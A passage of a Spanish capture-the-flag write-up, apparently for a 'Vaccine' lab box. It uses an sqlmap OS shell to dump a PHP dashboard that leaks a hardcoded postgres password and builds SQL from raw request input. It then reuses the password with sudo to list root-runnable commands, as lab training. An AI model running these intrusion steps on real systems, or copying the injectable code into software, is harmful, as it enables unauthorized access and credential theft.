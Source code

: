 Hemos conseguido una shell y podemos ejecutar comandos 
> --os-shell

```  shell
os-shell> cat /var/www/html/dashboard.php
[22:38:27] [WARNING] the SQL query provided does not return any output
[22:38:27] [INFO] retrieved: 
No output

os-shell> echo $(cat /var/www/html/dashboard.php)
command standard output: '<!DOCTYPE html> <html lang=\"en\" > <head> <meta charset=\"UTF-8\"> <title>Admin Dashboard</title> <link rel=\"stylesheet\" href=\"./dashboard.css\"> <script src=\"https://use.fontawesome.com/33a3739634.js\"></script> </head> <body>  <body> <div id=\"wrapper\"> <div class=\"parent\"> <h1 align=\"left\">MegaCorp Car Catalogue</h1> <form action=\"\" method=\"GET\"> <div class=\"search-box\"> <input type=\"search\" name=\"search\" placeholder=\"Search\" /> <button type=\"submit\" class=\"search-btn\"><i class=\"fa fa-search\"></i></button> </div> </form> </div> <table id=\"keywords\" cellspacing=\"0\" cellpadding=\"0\"> <thead> <tr> <th><span style=\"color: white\">Name</span></th> <th><span style=\"color: white\">Type</span></th> <th><span style=\"color: white\">Fuel</span></th> <th><span style=\"color: white\">Engine</span></th> </tr> </thead> <tbody> <?php session_start(); if($_SESSION['login'] !== \"true\") { header(\"Location: index.php\"); die(); } try { $conn = pg_connect(\"host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!\"); } catch ( exception $e ) { echo $e->getMessage(); } if(isset($_REQUEST['search'])) { $q = \"Select PG_VERSION base global pg_commit_ts pg_dynshmem pg_logical pg_multixact pg_notify pg_replslot pg_serial pg_snapshots pg_stat pg_stat_tmp pg_subtrans pg_tblspc pg_twophase pg_wal pg_xact postgresql.auto.conf postmaster.opts postmaster.pid from cars where name ilike '%\". $_REQUEST[\"search\"] .\"%'\"; $result = pg_query($conn,$q); if (!$result) { die(pg_last_error($conn)); } while($row = pg_fetch_array($result, NULL, PGSQL_NUM)) { echo \" <tr> <td class='lalign'>$row[1]</td> <td>$row[2]</td> <td>$row[3]</td> <td>$row[4]</td> </tr>\"; } } else { $q = \"Select PG_VERSION base global pg_commit_ts pg_dynshmem pg_logical pg_multixact pg_notify pg_replslot pg_serial pg_snapshots pg_stat pg_stat_tmp pg_subtrans pg_tblspc pg_twophase pg_wal pg_xact postgresql.auto.conf postmaster.opts postmaster.pid from cars\"; $result = pg_query($conn,$q); if (!$result) { die(pg_last_error($conn)); } while($row = pg_fetch_array($result, NULL, PGSQL_NUM)) { echo \" <tr> <td class='lalign'>$row[1]</td> <td>$row[2]</td> <td>$row[3]</td> <td>$row[4]</td> </tr>\"; } } ?> </tbody> </table> </div> </body>  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script> <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery.tablesorter/2.28.14/js/jquery.tablesorter.min.js'></script><script src=\"./dashboard.js\"></script> </body> </html>'

```

Intenté con ```sudo -l ``` para ver que comandos tenía disponible pero no tenía ninguna salida. Sin embargo podemos lidiar un poco con el terminal pues el comando anterior ```echo $(cat /var/www/html/dashboard.php) ``` no tendría mucho sentido en terminos de Bash pues cat ya hace eco, pero con este truco conseguí salvar el inconveniente y accedí a información importante para el reto, la password del usuario postgres

```user=postgres password=P@s5w0rd!```

 Task 7
What program can the postgres user run as root using sudo? 

``` shell
os-shell> echo $(echo "P@s5w0rd!" | sudo -S -l)
command standard output: 'Matching Defaults entries for postgres on vaccine: env_keep+=\"LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET\", env_keep+=\"XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH\", secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin, mail_badpass User postgres may run the following commands on vaccine: (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf'
```

